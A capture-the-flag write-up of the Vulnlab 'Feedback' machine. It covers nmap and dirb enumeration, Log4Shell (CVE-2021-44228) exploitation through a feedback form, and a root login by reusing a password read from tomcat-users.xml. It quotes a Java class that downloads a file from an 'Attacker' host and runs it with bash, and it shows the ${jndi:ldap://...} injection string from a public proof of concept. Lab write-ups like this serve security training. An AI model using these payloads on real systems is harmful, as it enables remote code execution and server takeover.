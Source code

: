 ```yaml
---
title: Vulnlab Feedback
author: kino
date: 2023-08-10 00:34:00 +0800
categories: [Vulnlab]
tags: [vulnlab, writeup]
---
```

# Vulnlab: Feedback

`Difficulty:` Easy

## Summary:

- Apache Tomcat
- /feedback Directory where "feedback" is logged using Java
- Log4Shell (CVE-2021-44228)
- Password Reuse

### Initial Scan
Initial Nmap scan shows an Apache Tomcat running over HTTP on port 8080.
```shell
➜  ~ nmap -sC -sV 10.10.120.186
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-09 20:16 EDT
Nmap scan report for 10.10.120.186
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 93:54:07:04:92:d4:1f:fd:54:21:5e:b2:db:ca:7c:ad (RSA)
|   256 f6:ec:e3:d7:97:e6:34:38:62:fe:58:2a:b0:98:21:99 (ECDSA)
|_  256 ca:5a:8b:bc:12:4f:8e:9f:13:30:ff:c1:40:fe:a0:d7 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.56
|_http-title: Apache Tomcat/9.0.56
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Visiting the page reveals it is a default page with nothing inherently suspicious. 

### Directory Fuzzing

A quick Dirb scan reveals the /feedback directory.
```shell
➜  ~ dirb http://10.10.117.96:8080

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed Aug  9 21:03:03 2023
URL_BASE: http://10.10.117.96:8080/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.117.96:8080/ ----
+ http://10.10.117.96:8080/docs (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/examples (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/favicon.ico (CODE:200|SIZE:21630)
+ http://10.10.117.96:8080/feedback (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/host-manager (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/manager (CODE:302|SIZE:0)

-----------------
END_TIME: Wed Aug  9 21:15:25 2023
DOWNLOADED: 4612 - FOUND: 6
```

This page allows us to submit feedback. When successful the page tell us that our feedback has been 'logged'. Even without the context clues this can be verified by viewing source.

```html
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF 8">
        ...
    </head>
    <body>
        ...
        <!-- Builb with Java, Struts2 & Log4J -->
    </body>
</html>
```

### Log4Shell
You can either create your own java payload or work your way around the GitHub PoC.

https://vulndev.io/2021/12/11/lab-exploiting-log4shell-cve-2021-44228/
```java
public class RCE {
    static {
        try {
            Runtime r = Runtime.getRuntime();
            Process p = r.exec("wget http://Attacker/x -O /tmp/x");
            p.waitFor();
            r = Runtime.getRuntime();
            p = r.exec("/bin/bash /tmp/x");
            p.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public RCE(){
        System.out.println("Is this RCE?");
    }
}
```

https://github.com/kozmer/log4j-shell-poc
```shell
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

Pretty much, we are able to use JNDI (Java Naming and Directory Interface) as a means to interract when an attacker LDAP server. We host our payload and when the feedback request gets parsed it will download our payload and run it (giving us a shell).

### Root
Simple Password reuse to wrap it all up.
```shell 
tomcat@ip-10-10-10-7:~/conf$ ls
ls
catalina.policy      jaspic-providers.xml  server.xml	     web.xml
catalina.properties  jaspic-providers.xsd  tomcat-users.xml
context.xml	     logging.properties    tomcat-users.xsd
tomcat@ip-10-10-10-7:~/conf$ cat tomcat-users.xml
cat tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="admin" password="[*****]" roles="manager-gui"/>
  <user username="robot" password="[*****]" roles="manager-script"/>

</tomcat-users>
tomcat@ip-10-10-10-7:~/conf$ su root
su root
Password: [*****]
root@ip-10-10-10-7:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-10-7:~# ls
ls
root.txt  snap
  ```


